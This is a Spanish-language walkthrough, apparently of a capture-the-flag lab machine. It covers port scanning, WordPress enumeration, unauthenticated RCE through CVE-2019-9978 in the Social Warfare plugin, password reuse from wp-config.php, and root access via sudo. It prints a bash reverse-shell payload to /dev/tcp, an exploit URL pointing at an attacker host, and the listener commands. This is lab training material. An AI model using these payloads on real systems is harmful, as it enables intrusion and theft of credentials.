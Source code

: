 

# PortScan
____

```
# Nmap 7.93 scan initiated Thu Nov 16 12:17:57 2023 as: nmap -sCV -p22,80 -oN targeted 192.168.204.
Nmap scan report for 192.168.204.169
Host is up (0.00041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59b7dbe0ba6376afd0200311e13c0e34 (RSA)
|   256 2e20567584ca35cee36a21321fe7f59a (ECDSA)
|_  256 0d02838b1a1cec0fae74cc7bda12899e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:2B:09:A1 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 16 12:18:04 2023 -- 1 IP address (1 host up) scanned in 6.65 seconds
```


# Web Enumeration
____

Hacemos una enumeración de directorios con **"GoBuster"**.
```bash
gobuster dir -u http://192.168.204.169 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```

Descubriendo así un directorio existente en el servicio Web con nombre "**/wordpress**"
![[Pasted image 20231116132515.png]]

Es decir, qué está corriendo un **CMS** **WordPress** en el servicio web Apache del **:80**

# WordPress Enumeration
____

Echándole un vistazo al código fuente para ver plugins...
![[Pasted image 20231116132740.png]]

Vemos que como uno de sus **plugins** tiene el "**Social Warfare v3.5.2**" que sí indagamos sobre posibles vulnerabilidades, encontraremos la vulnerabilidad **CVE-2019-9978** qué podemos llevar a cabo un **RCE** sin estar autenticados en ésta versión de Social Warfare.

[(Click aquí para entrar al PoC del RCE en el Social Warfare v.3.5.2)](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618/)

En éste caso, modificaré el payload del **PoC** con una Reverse Shell, como iremos viendo...

1. Creamos en local un "**payload.txt**".
```bash
nano payload.txt
```

Qué como **Payload** para la **Reverse Shell** tendrá este:
```bash
<pre>system('bash -c "bash -i >& /dev/tcp/192.168.x.x/PORT 0>&1"')</pre>
```

2. Nos montamos un servidor en **Python** en la ruta del Payload.
```bash
python3 -m http.server 80
```

3. Nos ponemos en escucha con el puerto que indicamos en el Payload para recibir la Shell.
```bash
nc -nlvp 443
```

5. Usamos la ruta vulnerable al **RCE** del **PoC**, para indicar nuestra IP donde tenemos el servidor montando & el nombre del payload.
```bash
website/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://IP_ATACANTE/PAYLOAD
```

![[Pasted image 20231116134704.png]]


Y recibiríamos nuestra **Reverse Shell**.

![[Pasted image 20231116134947.png]]
Ya tan sólo quedaría darle **tratamiento a la TTY**, que sino sabes darle tratamiento te recomiendo [((Leer este POST))](https://4uli.github.io/tratamiento-tty/)

# Escalada de Privilegios #1 
_____________

Indagando en los recursos **WordPress** qué desde fuera no tenemos acceso, encontraríamos el "**wp-config.php**" qué es donde está la configuración del mismo CMS, y sí le echamos un ojo encontraríamos las credenciales de la DB.

![[Pasted image 20231116135220.png]]

y viendo los usuarios válidos del sistema en el **Passwd**, encontraríamos el usuario **takis**.
![[Pasted image 20231116135351.png]]

Por ende, se me ocurre colocar ésta credencial en el usuarios takis.
![[Pasted image 20231116135502.png]]

Logrando así entrar como **takis**, gracias a una reutilización de contraseña.


# Escalda de Privilegios #2 
____

Sí como **takis**, listamos los permisos **SUDOERS**.
```bash
sudo -l
```
![[Pasted image 20231116135731.png]]

Podemos ejecutar cualquier comando como quién sea, es decir, podemos convertirnos en **root** tan fácil como:
```bash
sudo su
```

![[Pasted image 20231116135828.png]]
